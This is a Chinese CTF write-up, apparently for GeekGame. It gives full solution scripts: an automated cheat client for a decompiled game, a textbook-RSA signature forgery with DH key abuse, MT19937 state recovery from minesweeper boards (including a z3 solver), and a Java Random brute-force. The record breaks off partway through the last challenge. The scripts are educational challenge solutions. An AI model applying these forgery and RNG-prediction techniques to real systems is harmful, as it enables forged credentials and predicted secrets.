这道题挺好玩的，最开始我卡在了反编译源代码的地方，得到源代码后就很清楚该怎么做了。由于手残，我自己玩这个游戏根本玩不过几关，所以两问是同时用自动脚本解出来的。

这道题比较讨厌的是，即使得到了源代码，不做大修改的前提下也只能在 Windows 上运行，所以我为了这道题在 Windows 虚拟机里面搞了 Python 和 VSCode 一整套环境。虚拟机里面用 VSCode 写代码感觉很卡顿，体验非常差。另外我也没找到什么好用的 Shell，所以一直在用没经过配置的 PowerShell，差点就错过了 flag。

首先 strings 一下这个游戏的 exe 很容易发现是 py2exe 打包的程序，然后搜了一下如何解包，决定用 [unpy2exe](https://github.com/matiasb/unpy2exe) 来解包。但是解出来的 pyc 无法反编译，总是会报错，用最新版的 [uncompyle6](https://github.com/rocky/python-uncompyle6/) 和 [decompyle3](https://github.com/rocky/python-decompile3) 都会报错。我没多研究就去做别的题去了。

后来重新回到这道题，我看报错是 unmarshal 解析字节串出问题，然而简单分析 unpy2exe 源码可知 pyc 的内容是 marshal 之后放进去的，这里不应该有问题。于是深入研究了一下 unpy2exe 和 decompyle3 的源代码，发现比较新的 Python 版本的 pyc 文件使用了 [PEP 552](https://www.python.org/dev/peps/pep-0552/)，文件头的字节数不一样。根据这个 PEP 的描述，在 unpy2exe 的源代码里面把 pyc 文件头第二个四字节处插入一个四字节整数，设置成 0，就可以了。

除了游戏主体，还需要反编译一个 `securesocket.pyc`，这个文件 unpy2exe 并不会提取出来，我是用 7-zip 打开 exe 来提取到的。

反编译出来的代码有一些缩进和顺序问题，我对照着 uncompyle6 和 decompyle3 反编译出来的两份代码，再结合游戏的行为，修改了好多处代码，使得反编译之后的代码运行起来效果跟 exe 是相同的。

游戏的逻辑都在服务器上，本地只是一个显示信息和转发按键的客户端而已。但是值得关注的一点是，玩家挖开地图中的 evildirt 会受到伤害，而 evildirt 和 dirt 的贴图是一样的，默认情况下看不出来区别。在游戏读取贴图的代码部分，直接把 evildirt 的贴图换掉（我是换成了 fire 的贴图），就相当于开了「透视挂」，可以让你手玩的时候避开陷阱。另外，服务器发来的地图是完整的，包括屏幕不显示的区域，我直接通过字符画的方式把完整地图显示了出来。



通过一些尝试，我们可以理解游戏规则。左右键会改变玩家的朝向，如果前方是空白的，按这个方向的按键就会前进一格。上键可以挖开面前的一块，下键可以挖开面前的一块和面前这块下面的一块。

拿到 flag 的条件是通过 15 关，每一关的通关条件是在不死的情况下拿到足够多的钱，钱的位置是已知的。

所以我就写了一个 BFS 算法，根据玩家当前的状态来在附近搜索钱，然后向钱的方向前进，同时避开 evildirt 和 fire。这样一直贪心下去就可以吃到足够多的钱。

但是这个简单的算法有很多问题，例如就近找钱会使得玩家很快就降低到比较低的高度。这个游戏里面高度降下去了就不能重新向上，所以我把算法改成了优先搜索比较高的地方。还有，玩家会偶尔进入不经过 evildirt 就找不到路的情况，我在这种情况下临时允许搜索到的路径包含 evildirt。

为了让测试的时候比较快，我把游戏的 tick 和字幕的显示时间都改成了非常短的值，同时把相关信息都输出在终端上。这个游戏的服务器并不会计时，你可以随时开始下一个 tick。

幸好我在北京，到题目服务器只有几毫秒延迟。否则我还得开一个北京地区的 Windows Server VPS 来做题。

经过很多轮的调试修改，这个外挂终于可以靠自己玩过 15 关了，在通过第 15 关的时候及时关掉程序，就可以在终端看到 flag。游戏竟然不会自动结束，还有第 16 关。



最终的代码如下：

```python
from tkinter import *
from tkinter import messagebox
from tkinter import simpledialog
from tkinter.ttk import *
import time, queue, msilib, threading, base64, struct, sys, hashlib
from Crypto.PublicKey import RSA
import platform, securesocket
with open('textures.msi', 'rb') as f:
    PSK = hashlib.sha256(f.read()).digest()
    assert len(PSK) == 32
SERVER_ADDR = ('prob10.geekgame.pku.edu.cn', 10010)
SERVER_PUBKEY = RSA.construct((135906273688931402589220204382871553870909804965399698890068262170520688884372045298141155906503818444426612681815829913189804909686158514999348437913468766184178386093808168943112695723474687346392228439951048402868123712946874173233503831688658127511363374069037033641735788196504560132107647546163113244313,
                               65537))
GX = 25
GY = 39

debug = True
CHEAT = 1
HUD_TIME = 0.1
TICKTIME = 0.02

def dprint(*args):
    if debug:
        print(game.level, '===', *args)

def get_platform_name():
    # u = platform.uname()
    # name = '%s (%s %s) on %s' % (u.node, u.system, u.version, u.processor)
    # name = name.encode()
    # name = name[:500]
    # return name
    return b'mcfxtxdy! ranwentql! xmcpnb!!!'


class CheckerMixin:

    @classmethod
    def _check(cls, value):
        for k, v in cls.__dict__.items():
            if not k.startswith('_'):
                if v == value:
                    return v
        raise RuntimeError('bad value %s for %s in %s' % (value, cls, k))


class Elem(CheckerMixin):
    dirt = 1
    evildirt = 2
    empty = 3
    fire = 4
    heart = 5
    chunk1 = 6
    chunk2 = 7
    chunk3 = 8
    chunks = [6, 7, 8]
    player = 9

def elem_to_sym(x):
    return {1:'.',2:'E',3:' ',4:'F',5:'H',6:'1',7:'2',8:'3',9:'*'}[x]


class Command(CheckerMixin):
    left = 1
    right = 2
    next = 3
    down = 4
    empty = 5


class Sync(CheckerMixin):
    sync_level = 1
    sync_status = 2
    sync_map = 3
    init_level = 4
    show_hud = 5
    tick_routine = 6


class Player:

    def __init__(self, game, y, x):
        self.life = 100
        self.life_restore = 0
        self.left = False
        self.command = Command.empty
        self.y = y
        self.x = x


def is_ok(x, y, ignorebad):
    if x < 0 or x >= GX:
        return False
    if y < 0 or y >= GY:
        return False
    ok = True
    if ignorebad:
        return ok
    if game.g[y][x] in [Elem.evildirt, Elem.fire]:
        ok = False
    if y > 0:
        if game.g[y-1][x] in [Elem.fire]:
            ok = False
    if y < GY - 1:
        if game.g[y+1][x] in [Elem.fire]:
            ok = False
    return ok

def is_good(x, y):
    if x < 0 or x >= GX:
        return False
    if y < 0 or y >= GY:
        return False
    # if game.player.life < 30:
    #     cands = [Elem.heart]
    # elif game.player.life > 50:
    #     cands = Elem.chunks
    # else:
    #     cands = Elem.chunks + [Elem.heart]
    cands = Elem.chunks + [Elem.heart]
    return game.g[y][x] in cands

def is_cango(x, y):
    if x < 0 or x >= GX:
        return False
    if y < 0 or y >= GY:
        return False
    return game.g[y][x] in Elem.chunks + [Elem.heart] + [Elem.empty]

def is_floor(x, y):
    if x < 0 or x >= GX:
        return False
    if y < 0 or y >= GY:
        return False
    return game.g[y][x] in [Elem.dirt, Elem.evildirt]

def search_bfs(initx, inity, ignorebad=False, targetx=None, targety=None):
    print('Search', initx, inity, targetx, targety)
    q = []
    visited = set()
    q.append((initx, inity, ""))
    visited.add((initx, inity))
    while q:
        miny = 999
        minindex = None
        for index, (x, y, path) in enumerate(q):
            if y < miny:
                miny = y
                minindex = index
        x, y, path = q[minindex]
        del q[minindex]
        if targetx is None:
            if (x, y) != (initx, inity) and is_good(x, y):
                print('Found', initx, inity, x, y, path)
                return x, y, path
        else:
            if (x, y) == (targetx, targety):
                print('Found', initx, inity, x, y, path)
                return x, y, path
        for xnew, ynew, op in [(x - 1, y, 'l'), (x + 1, y, 'r'), (x - 1, y + 1, 'L'), (x + 1, y + 1, 'R'), (x, y + 1, 's')]:
            if (xnew, ynew) not in visited:
                visited.add((xnew, ynew))
                if xnew == x:
                    if is_cango(xnew, ynew) and (is_floor(xnew, ynew+1) or ignorebad):
                        q.append((xnew, ynew, path + op))
                elif ynew == y:
                    if is_ok(xnew, ynew, ignorebad):
                        q.append((xnew, ynew, path + op))
                elif ynew == y + 1:
                    if is_ok(xnew, ynew, ignorebad) and is_ok(xnew, ynew - 1, ignorebad):
                        q.append((xnew, ynew, path + op))
    print('Not Found')

class SearchState:
    targetx = None
    targety = None
    ignore_bad = False

search_state = SearchState()

def search(x, y):
    if (x, y) == (search_state.targetx, search_state.targety):
        search_state.targetx = None
        search_state.targety = None
        search_state.ignore_bad = False

    r = search_bfs(x, y, search_state.ignore_bad, search_state.targetx, search_state.targety)
    if r is not None:
        tx, ty, path = r
        search_state.targetx = tx
        search_state.targety = ty
        return path
    elif search_state.targetx is not None:
        search_state.targetx = None
        return search(x, y)
    elif search_state.ignore_bad == False:
        search_state.ignore_bad = True
        return search(x, y)
    else:
        print('Failed')
        return None

class Game:

    def __init__(self):
        self.g = [[Elem.dirt for y in range(GX)] for x in range(GY)]
        self.level = -1
        self.cur = 0
        self.goal = 0
        self.player = Player(self, 0, 0)
        self.callbacks = {}
        self.socket = None
        self.token = None
        self.register(Sync.sync_level, self.on_sync_level)
        self.register(Sync.sync_status, self.on_sync_status)
        self.register(Sync.sync_map, self.on_sync_map)

    def trigger(self, event, *args, **kwargs):
        for callback in self.callbacks.get(event, []):
            callback(*args, **kwargs)

    def register(self, event, callback):
        self.callbacks.setdefault(event, []).append(callback)

    def socket_listener(self):

        def read_once():
            type = Sync._check(struct.unpack('!b', self.socket.recv(1))[0])
            callbacks = self.callbacks.get(type, [])
            if not callbacks:
                return

            def call(args):
                for callback in callbacks:
                    callback(*args)

            if type == Sync.sync_level:
                args = struct.unpack('!ii', self.socket.recv(1024))
                dprint('sync_level', args)
                call(args)

            elif type == Sync.sync_status:
                args = struct.unpack('!iii?iii', self.socket.recv(1024))
                dprint('sync_static', args)
                call(args)
            elif type == Sync.sync_map:
                args_all = list(struct.iter_unpack('!bbb', self.socket.recv(None)))
                print('sync_map')
                for args in args_all:
                    call(args)
                for y in range(GY):
                    for x in range(GX):
                        print(elem_to_sym(self.g[y][x]), end='')
                    print()

            elif type == Sync.init_level:
                dprint('init_level')
                call([])
            elif type == Sync.show_hud:
                text = self.socket.recv(None).decode('utf-8')
                print('show_hud', text)
                call([text])
            elif type == Sync.tick_routine:
                dprint('tick_routine')
                call([])

                if CHEAT:
                    x = self.player.x
                    y = self.player.y
                    path = search(x, y)
                    print(path)
                    if path is None:
                        print('Failed')
                    op = path[0]
                    clear_cmd_queue()
                    if op == 'l':
                        if not self.player.left:
                            cmd(Command.left)
                        elif self.g[y][x-1] in [Elem.dirt, Elem.evildirt]:
                            cmd(Command.next)
                        else:
                            cmd(Command.left)
                    elif op == 'r':
                        if self.player.left:
                            cmd(Command.right)
                        elif self.g[y][x+1] in [Elem.dirt, Elem.evildirt]:
                            cmd(Command.next)
                        else:
                            cmd(Command.right)
                    elif op == 'L':
                        if not self.player.left:
                            cmd(Command.left)
                        elif self.g[y][x-1] in [Elem.dirt, Elem.evildirt] or self.g[y+1][x-1] in [Elem.dirt, Elem.evildirt]:
                            cmd(Command.down)
                        else:
                            cmd(Command.left)
                    elif op == 'R':
                        if self.player.left:
                            cmd(Command.right)
                        elif self.g[y][x+1] in [Elem.dirt, Elem.evildirt] or self.g[y+1][x+1] in [Elem.dirt, Elem.evildirt]:
                            cmd(Command.down)
                        else:
                            cmd(Command.right)
                    elif op == 's':
                        if self.player.left:
                            cmd(Command.right)
                        else:
                            cmd(Command.left)

            else:
                print('unknown sync type', type)


        while True:
            read_once()

    def start(self, token):
        self.token = token
        self.socket = securesocket.connect(SERVER_ADDR, PSK, SERVER_PUBKEY)
        self.socket.send(token.encode('utf-8'))
        self.socket.send(get_platform_name())
        threading.Thread(target=(self.socket_listener), daemon=True).start()

    def tick(self):
        dprint('>>> send', self.player.command)
        self.socket.send(struct.pack('!b', self.player.command))

    def on_sync_level(self, level, goal):
        self.level = level
        self.goal = goal

    def on_sync_status(self, cur, plife, pliferestore, pleft, py, px, pcmd):
        self.cur = cur
        self.player.life = plife
        self.player.life_restore = pliferestore
        self.player.left = pleft
        self.player.y = py
        self.player.x = px
        self.player.command = pcmd

    def on_sync_map(self, y, x, val):
        self.g[y][x] = Elem._check(val)


tk = Tk()
tk.title('神秘小游戏')
tk.resizable(False, False)
DESCRIPTION = '按方向键移动。玩法不太好讲清楚，多试几次应该就明白了。另外急招美工一名，还有测试工程师。'
game = Game()
cmds = queue.Queue()
SZ = 32
BORDER = 10

paused = False
moneymsg = StringVar()
hudvar = StringVar()
dg = [[None for x in range(GX)] for y in range(GY)]
onscreen = [[None for x in range(GX)] for y in range(GY)]
material = {}
player = {}

def load_texture():
    global material
    global player
    db = msilib.OpenDatabase('textures.msi', msilib.MSIDBOPEN_READONLY)

    def get_key(db, k):
        v = db.OpenView('select `Text` from UIText where `Key`=?')
        args = msilib.CreateRecord(1)
        args.SetString(1, k)
        v.Execute(args)
        rec = v.Fetch()
        ret = rec.GetString(1)
        v.Close()
        return ret

    def load_image(key):
        data = get_key(db, key)
        data = base64.b64decode(data.encode())
        return PhotoImage(data=data)

    material = {Elem.chunk1: load_image('chunk1'),
     Elem.chunk2: load_image('chunk2'),
     Elem.chunk3: load_image('chunk3'),
     Elem.dirt: load_image('dirt'),
     # Elem.evildirt: load_image('evildirt'),
     Elem.evildirt: load_image('fire'),
     Elem.empty: load_image('empty'),
     Elem.fire: load_image('fire'),
     Elem.heart: load_image('heart')}
    player = {'LeftNormal':load_image('playerL'),
     'RightNormal':load_image('playerR'),
     'LeftHurt':load_image('playerHurtL'),
     'RightHurt':load_image('playerHurtR')}
    db.Close()


def pause(force=None):
    global paused
    if force is None:
        paused = not paused
    else:
        paused = force
    pausebtn.state(['pressed' if paused else '!pressed'])
    pausebtn['text'] = '已暂停' if paused else '暂停'


def cmd(value):
    cmds.put(value)
    print('cmd:', value)


def show_hud(msg):
    hudvar.set(msg)
    hud.grid(row=1, column=0)
    pause(True)
    pausebtn.state(['disabled'])
    time.sleep(HUD_TIME)
    pausebtn.state(['!disabled'])
    pause(False)
    hud.grid_forget()


def start():

    def game_controller(token):
        load_texture()
        game.register(Sync.init_level, init_level)
        game.register(Sync.show_hud, show_hud)
        game.register(Sync.tick_routine, tick_routine)
        game.start(token)

        while True:
            while paused:
                time.sleep(0.1)
            try:
                if game.player.command == Command.empty:
                    x = cmds.get_nowait()
                    game.player.command = x
            except queue.Empty:
                game.player.command = Command.empty
            else:
                game.tick()
                time.sleep(TICKTIME)

    def game_controller_wrapped(*args):
        game_controller(*args)

    # token = simpledialog.askstring('神秘小游戏', 'Token:', parent=tk)
    token = '...'
    if not token:
        tk.destroy()
        sys.exit(1)
    else:
        threading.Thread(target=game_controller_wrapped, args=[token], daemon=True).start()


def tick_routine(redraw=False):
    global dg
    global onscreen

    def get_player_img():
        return player[(('Left' if game.player.left else 'Right') + ('Hurt' if game.player.life_restore else 'Normal'))]

    for y in range(GY):
        for x in range(GX):
            if redraw or game.g[y][x] is not onscreen[y][x] or game.g[y][x] == Elem.player:
                onscreen[y][x] = game.g[y][x]
                if dg[y][x]:
                    canvas.delete(dg[y][x])
                if game.g[y][x] == Elem.player:
                    dg[y][x] = canvas.create_image((x * SZ), (y * SZ), anchor='nw', image=(get_player_img()))
                else:
                    dg[y][x] = canvas.create_image((x * SZ), (y * SZ), anchor='nw', image=(material[game.g[y][x]]))
    moneymsg.set('$%d/%d ' % (game.cur, game.goal))
    moneybar['value'] = game.cur
    lifebar['value'] = game.player.life
    canvas.yview_moveto((BORDER + game.player.y - 4) / (GY + 2 * BORDER))
    canvas.xview_moveto((BORDER + game.player.x - 4) / (GX + 2 * BORDER))


def clear_cmd_queue():
    try:
        while True:
            cmds.get_nowait()

    except queue.Empty:
        pass
    else:
        game.player.command = Command.empty


def init_level():
    global dg
    global onscreen
    dg = [[None for x in range(GX)] for y in range(GY)]
    onscreen = [[None for x in range(GX)] for y in range(GY)]
    canvas.delete('all')
    canvas['scrollregion'] = (-BORDER * SZ, -BORDER * SZ, (BORDER + GX) * SZ, (BORDER + GY) * SZ)
    moneybar['value'] = 0
    moneybar['maximum'] = game.goal
    clear_cmd_queue()

    # CHEAT
    if CHEAT:
        print('init level cheat')
        global search_state
        search_state = SearchState()
        if game.player.left:
            cmd(Command.right)
        else:
            cmd(Command.left)

    tick_routine(redraw=True)


f = Frame(tk)
f.grid(row=0, column=0, sticky='we')
f.columnconfigure(2, weight=1)
lifebar = Progressbar(f, orient=HORIZONTAL, length=80, value=100, maximum=100, mode='determinate')
lifebar.grid(row=0, column=0)
Label(f, text=' HP').grid(row=0, column=1)
Label(f).grid(row=0, column=2, sticky='we')
Label(f, textvariable=moneymsg).grid(row=0, column=3)
moneybar = Progressbar(f, orient=HORIZONTAL, length=80, value=0, maximum=1, mode='determinate')
moneybar.grid(row=0, column=4)
canvas = Canvas(tk, width=(9 * SZ), height=(9 * SZ), bg='#770055')
canvas.grid(row=1, column=0, sticky='nswe')
hud = Label(tk, textvariable=hudvar, background='#000055', foreground='#ffffff', font='黑体 -25')
infof = Frame(tk)
infof.grid(row=2, column=0, sticky='we')
infof.columnconfigure(1, weight=1)
pausebtn = Button(infof, text='暂停', width=8, command=pause)
pausebtn.grid(row=0, column=0)
Label(infof).grid(row=0, column=1, sticky='we')
Button(infof, text='操作说明', width=8, command=(lambda: messagebox.showinfo('操作说明', DESCRIPTION))).grid(row=0, column=2, columnspan=2)
tk.bind_all('<Left>', lambda *_: cmd(Command.left))
tk.bind_all('<Right>', lambda *_: cmd(Command.right))
tk.bind_all('<Up>', lambda *_: cmd(Command.next))
tk.bind_all('<Down>', lambda *_: cmd(Command.down))
tk.after(1, lambda *_: start())
mainloop()
```

## 密码学实践

这道题的源代码至少包含 5 种各不相同的代码风格……

第一问是用 MESenc 函数加密了 flag1，还加密了一些已知明文的内容。

看一遍 MESenc 函数的过程，发现明文是 `a`，`b`，`c`，`d` 的时候，密文会是 `c xor key1`，`d xor key2`，`a xor c xor key3`，`b xor d xor key4`，其中 `key1~4` 是由密钥派生出来的东西，加密每个 block 并不会变。所以只要一组明密文就可以把这些 `key` 都解出来，也就可以解密其他密文了。



第二问首先需要搞出来一个名字是 `Alice` 的 RSA 签名，但是直接签这个名字是不允许的。这个 RSA 签名没做任何处理，就是 Textbook RSA。那绕过方法也太多了，可以给要签名的东西乘以一个系数，或者求逆等等，然后再把签名变换回来就行了。我这里直接把要签名的东西加上 RSA 的 n，这样签名是直接可以用的。

但是加上 n 之后的数按照大端序转换成字节串，必须满足「名字、两个字节名字长度、密钥、两个字节密钥长度」这个格式，这道题允许名字是空字符串，那就非常简单了，两个字节名字长度是 `\x00\x00`，名字是空，这个整数甚至都不会变。密钥的话是用在 DH 密钥交换算法上面，直接发 0 可以让 `comm_key` 是 0，这样 `old_key` 直接不变，按照第一问的解法就可以解出第二问 flag。

所以我们需要的字节串是 `b'Alice\x00\x05\x00\x00\x01'`，也就是名字 `Alice` 和密钥 0。然后这个转换为大整数之后加上 n 得到一个新的数，我们去签名这个数就行。为了让这个新的数也符合格式，我们就在前面补 `\x00`，这样大整数的值不会变，直到满足所需格式即可。（这里要求新的数后两个字节对应的数不能太小，不过这是大概率事件。）

最终的 exp：

```python
from pwn import *
from Crypto.Util.number import bytes_to_long,long_to_bytes

context.log_level = 'debug'

token = '...'

r = remote('prob08.geekgame.pku.edu.cn', 10008)
r.recvuntil('token:')
r.sendline(token)
r.recvuntil('to do?')
r.sendline('0')
r.recvuntil(' N is: ')
N = int(r.recvline().strip())
r.recvuntil(' e is: ')
e = int(r.recvline().strip())

target = int.from_bytes(b'Alice\x00\x05\x00\x00\x01', 'big')
target += N
target_bytes = long_to_bytes(target)
print(f'{target_bytes=}')
l = int.from_bytes(target_bytes[-2:], 'big')
assert l >= len(target_bytes) + 2
r.recvuntil('What is your name?')
r.sendline('')
r.recvuntil('What is your key?')
r.sendline(target_bytes[:-2].rjust(l, b'\x00').hex())
r.recvuntil('Your certificate is:\n')
cert = int(r.recvline().strip())

r.recvuntil('to do?')
r.sendline('1')
r.sendline(str(cert))
r.interactive()
```

## 扫雷

这道题我很喜欢，因为我之前出过一些 Python 随机数预测的题，例如 Hackergame 2019 的[「大整数分解锦标赛」](https://github.com/ustclug/hackergame2019-writeups/blob/master/official/%E5%A4%A7%E6%95%B4%E6%95%B0%E5%88%86%E8%A7%A3%E9%94%A6%E6%A0%87%E8%B5%9B/README.md)和 pwnhub 公开赛的 [CoinFlip2](https://www.anquanke.com/post/id/205861)。

第一问很简单，有很多 CTF 题都考过，Python 的随机数只要收集 624 组 32 bit 的随机数，就可以还原随机数的种子，从而预测未来的所有随机数。

这里是 256 bit 的随机数，所以收集 78 组即可。在扫雷游戏的困难模式中，所有随机数都会转变成游戏的地图，所以我们可以轻松拿到随机数。

很容易搜索到别人写的[随机数预测库](https://github.com/kmyk/mersenne-twister-predictor)，只要调用就行了，第一问代码如下：

```python
from pwn import *

# context.log_level = 'debug'

r = remote('prob09.geekgame.pku.edu.cn', 10009)
r.recvuntil('token:')
r.sendline('...')

r.recvuntil('easy mode?')
r.sendline('n')

from mt19937predictor import MT19937Predictor
predictor = MT19937Predictor()

for i in range(78):
    for t in range(16):
        print(i, t)
        r.recvuntil('> ')
        r.sendline('0 ' + str(t))
        if b'BOOM' in r.recvline():
            n = 0
            for x in range(16):
                line = r.recvline().decode()
                for y in range(16):
                    if line[y] == '*':
                        n |= 1 << (x * 16 + y)
            print(hex(n))
            predictor.setrandbits(n, 256)
            r.recvuntil('try again?')
            r.sendline('y')
            break

bits = predictor.getrandbits(256)
for i in range(16):
    for j in range(16):
        x = (bits >> (i * 16 + j)) & 1
        if x == 0:
            r.recvuntil('> ')
            r.sendline(str(i) + ' ' + str(j))
r.interactive()
```

第二问就比较麻烦了，因为随机数会被随机丢掉一半。这种不连续的随机数预测题我早就想出了，但是因为比较懒就一直没去尝试。如果我前一段时间不忙的话 Hackergame 2021 很可能就会有一道这样的题目。

MT19937 有两个很重要的性质：

1. 生成的随机数在 GF(2) 的意义下是线性的，也就是说，生成的随机数的每一个 bit 都是内部状态中一部分 bit 的异或。所以，只要我们能收集到独立的 19937 bit 输出，即使这些 bit 分布在离散的地方，只要在 GF(2) 上解一个线性方程组，就可以恢复出来完整的内部状态。

2. 一个块（32 bit）的值只与它之前第 624、623、227 个块有关。（其中一个块只用了一个 bit，所以可以通过暴力尝试两种情况而忽略这个块）

第二问中，我们知道一些零碎的随机数片段，但是由于第二个性质，我们通过简单的检查就可以确定 3 个块之间是否是我们知道的这种间隔。如果检查通过的话，那么 3 个块之间的相对位置就确定了。只要这样的 3 元组足够多，就可以知道很多很多块的位置，然后利用第一个性质就可以解出内部状态了。

之前的题目中，我通过手写的算法来构造矩阵，并且高斯消元来求解线性方程组，这样效率极低。如果已知的 bit 位置能够提前知道，我们还可以花一些时间来先把矩阵预生成好，但是这道题中我们并不能提前知道哪些 bit 已知。

所以，我直接使用 z3 来求解这个问题，实验证明 z3 求解的速度是非常快的。

总结起来思路就是：先在所有已知的随机数片段中找到能够确定位置关系的三元组（穷举两个位置，第三个查哈希表比较快），然后把位置确定的这些随机数与内部状态的关系丢给 z3 去求解，得到内部状态，然后就可以预测之后的随机数了。

解题代码如下：

```python
from pwn import *

# context.log_level = 'debug'

r = remote('prob09.geekgame.pku.edu.cn', 10009)
# r = remote('127.0.0.1', 10000)
r.recvuntil('token:')
r.sendline('...')

r.recvuntil('easy mode?')
r.sendline('y')

l = []

nnnnn = 250

for i in range(nnnnn):
    for t in range(16):
        print(i, t)
        r.recvuntil('> ')
        r.sendline('0 ' + str(t))
        if b'BOOM' in r.recvline():
            n = 0
            for x in range(16):
                line = r.recvline().decode()
                for y in range(16):
                    if line[y] == '*':
                        n |= 1 << (x * 16 + y)
            print(hex(n))
            l.append(n)
            r.recvuntil('try again?')
            r.sendline('y')
            break

def untempering(y):
    y ^= y >> 18
    y ^= (y << 15) & 0xEFC60000
    y ^= (
        ((y << 7) & 0x9D2C5680)
        ^ ((y << 14) & 0x94284000)
        ^ ((y << 21) & 0x14200000)
        ^ ((y << 28) & 0x10000000)
    )
    y ^= (y >> 11) ^ (y >> 22)
    return y

data_to_src = {}
data_list = []
for i, n in enumerate(l):
    elem_list = []
    for j in range(8):
        data = untempering((n >> (j * 32)) & 0xFFFFFFFF)
        elem_list.append(data)
        data_to_src[data] = (i, j)
    data_list.append(elem_list)

pairs = []
for data1 in data_to_src:
    for data2 in data_to_src:
        if data_to_src[data1] >= data_to_src[data2]:
            continue
        for extrabit in range(2):
            y = (0x80000000 * extrabit) | (data1 & 0x7FFFFFFF)
            data3 = data2 ^ (y >> 1) ^ (0x9908B0DF if y & 1 else 0)
            if data3 in data_to_src:
                if data_to_src[data3] <= data_to_src[data2]:
                    continue
                # print(data_to_src[data1], data_to_src[data2], data_to_src[data3])
                pairs.append((data_to_src[data1], data_to_src[data2], data_to_src[data3]))

print('pairs count', len(pairs))

index_to_pos = {pairs[0][0][0]: 0}
while True:
    print('index_to_pos len:', len(index_to_pos))
    old_size = len(index_to_pos)
    for (p1, p1p), (p2, p2p), (p3, p3p) in pairs:
        base = None
        if p1 in index_to_pos:
            base = index_to_pos[p1] + p1p
        elif p2 in index_to_pos:
            base = index_to_pos[p2] - 396 + p2p
        elif p3 in index_to_pos:
            base = index_to_pos[p3] - 623 + p3p
        if base is not None:
            index_to_pos[p1] = base - p1p
            index_to_pos[p2] = base + 396 - p2p
            index_to_pos[p3] = base + 623 - p3p

    sorted_list = sorted(index_to_pos.items())
    for (i1, p1), (i2, p2) in zip(sorted_list[:-1], sorted(index_to_pos.items())[1:]):
        if (i2 - i1) * 8 == p2 - p1:
            # print(f'{i1}~{i2} -> {p1}~{p2}')
            for i in range(i1 + 1, i2):
                index_to_pos[i] = p1 + 8 * (i - i1)
                # print(f'So, {i} -> {index_to_pos[i]}')

    if len(index_to_pos) == old_size:
        break

assert(len(index_to_pos) > 78)

MT = [None] * (max(index_to_pos.values()) + 624)
min_pos = min(index_to_pos.values())
min_index = min(index_to_pos.keys())
for index, pos in index_to_pos.items():
    MT[pos - min_pos : pos - min_pos + 8] = data_list[index]

def forward(i):
    if MT[i - 624] is not None and MT[i - 624 + 1] is not None and MT[i + 397 - 624] is not None:
        y = (MT[i - 624] & 0x80000000) | (MT[i - 624 + 1] & 0x7FFFFFFF)
        new_value = (
            MT[i + 397 - 624] ^ (y >> 1) ^ (0x9908B0DF if y & 1 else 0)
        )
        if MT[i] is None:
            MT[i] = new_value
        else:
            assert MT[i] == new_value

for i in range(624, len(MT)):
    forward(i)

for i in range(0, len(MT), 8):
    print(i, MT[i : i + 8])
print(len(MT))

from z3 import *

for i in range(624):
    if MT[i] is None:
        MT[i] = BitVec(f'x_{i}', 32)
    else:
        MT[i] = BitVecVal(MT[i], 32)

s = Solver()
for i in range(624, len(MT)):
    y = (MT[i - 624] & 0x80000000) | (MT[i - 624 + 1] & 0x7FFFFFFF)
    new_value = MT[i + 397 - 624] ^ LShR(y, 1) ^ (0x9908B0DF & SignExt(31, Extract(0, 0, y)))
    if MT[i] is not None:
        MT[i] = BitVecVal(MT[i], 32)
        s.add(new_value == MT[i])
    else:
        MT[i] = new_value

print(s.check())
m = s.model()
seeds = [None] * 624
for i in range(624):
    seeds[i] = m.evaluate(MT[i]).as_long()

import random
random.setstate((3, tuple(seeds) + (0,), None))
assert random.getrandbits(256) == l[min_index]
random.setstate((3, tuple(seeds) + (0,), None))

for i in range(min_index, nnnnn):
    board = random.getrandbits(256)
    while board & 1:
        board = random.getrandbits(256)
    assert board == l[i]

board = random.getrandbits(256)
for i in range(16):
    for j in range(16):
        x = (board >> (i * 16 + j)) & 1
        if x == 0:
            r.recvuntil('> ')
            r.sendline(str(i) + ' ' + str(j))
r.interactive()
```

## 龙珠模拟器

第一问中不同 Ball 只有 `chunkSize` 不一样，其他参数一样，所以 `chunkOffset` 是 (0, 0) 的时候随机数种子是一样的，研究 Java 随机数的 `nextInt(n)` 函数实现，发现是取 31 bit 随机数然后 mod n（有小概率会重新取值，但是可以忽略这个概率）。

我们发现每个更大的 `chunkSize` 都是上一个 `chunkSize` 的整数倍，如果我们知道一个数 mod n 的值，那么它 mod kn 的值就只有那么 k 种情况了，穷举即可。

解题代码：

```python
import requests

token = '...'

def br(x, y):
    result = requests.post('https://prob16.geekgame.pku.edu.cn/api/break',
        params={'token': token, 'x': x, 'y': y}).json()
    print('br', x, y, result)
    return result

def state(x, y):
    return requests.get('https://prob16.geekgame.pku.edu.cn/api/state',
        params={'token': token, 'x': x, 'y': y}).json()

ball_names = ["FIRST", "SECOND", "THIRD", "FOURTH", "FIFTH", "SIXTH", "SEVENTH"]
ball_sizes = [24, 48, 192, 1536, 24576, 393216, 25165824]

if __name__ == '__main__':
    s = state(0, 0)["materials"]
    xlast = None
    ylast = None
    for i in range(24):
        for j in range(24):
            if s[i][j] == ball_names[0]:
                xlast = i
                ylast = j
    br(xlast, ylast)

    for i in range(1, 7):
        for x in range(xlast, ball_sizes[i], ball_sizes[i-1]):
            for y in range(ylast, ball_sizes[i], ball_sizes[i-1]):
                if ball_names[i] in br(x, y)["balls"]:
                    xlast = x
                    ylast = y
                    break
            else:
                continue
            break
```

第二问我思考了很久，我发现这道题的代码跟 Hackergame 2020 的[「超迷你的挖矿模拟器」](https://github.com/USTC-Hackergame/hackergame2020-writeups/blob/master/official/%E8%B6%85%E8%BF%B7%E4%BD%A0%E7%9A%84%E6%8C%96%E7%9F%BF%E6%A8%A1%E6%8B%9F%E5%99%A8/README.md)一题源代码高度相似，而且 2020 年这道题被非预期了，我就怀疑是出题人又使用类似的思路出了一道没有非预期的题目。然而完全理解 Hackergame 2020 这题的解法之后，发现并没有办法直接把它用于求解现在这道题（主要是因为这题 mod 的数不是 2 的幂）。然后我又想了很多类似的攻击，包括一些高级的 LCG 相关的攻击，例如使用格密码学的 LLL 算法的方案，都没想出来一个能用的解法。

问题的转机出现在我开始尝试写一个穷举随机数种子的算法，试图了解在可接受的时间内到底能穷举多大数量级的种子，从而估计各种可能的解法需要的时间。

